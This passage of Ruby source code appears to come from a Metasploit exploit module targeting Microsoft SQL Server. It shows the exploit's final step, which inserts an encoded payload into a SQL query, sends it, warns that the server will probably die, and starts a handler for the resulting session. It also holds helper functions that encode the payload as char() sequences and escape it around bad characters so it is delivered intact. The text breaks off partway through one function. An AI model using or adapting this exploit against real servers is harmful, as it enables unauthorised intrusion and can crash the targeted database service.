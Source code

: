         # put the number in (start offset)
        runme = sqlquery.gsub(/%NUM%/, num.to_s)
        runme.gsub!(/%STUFF%/, enc)

        # go!
        print_status('The SQL Server will probably die after exploitation. Follow the "POSTEXPLOITATION" instructions in the README file')
        begin
          mssql_query(runme, datastore['VERBOSE'])
        rescue ::Errno::ECONNRESET, EOFError
          print_error("Error: #{$!}")
        end

        handler
        disconnect
      end


      def mssql_str_to_chars(str)
        ret = ""
        str.unpack('C*').each do |ch|
          ret += "+" if ret.length > 0
          ret += "char("
          ret << ch.to_s
          ret += ")"
        end
        return ret
      end


      def mssql_encode_string(str)
        badchars = "\x00\x80\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8e\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9e\x9f"

        enc = ""
        in_str = true
        str.unpack('C*').each do |ch|
          # double-double single quotes
          if ch == 0x27
            if not in_str
              enc << "+'"
              in_str = true
            end
            enc << ch.chr * 4
            next
          end

          # double backslashes
          if ch == 0x5c
            if not in_str
              enc << "+'"
              in_str = true
            end
            enc << ch.chr * 2
            next
          end
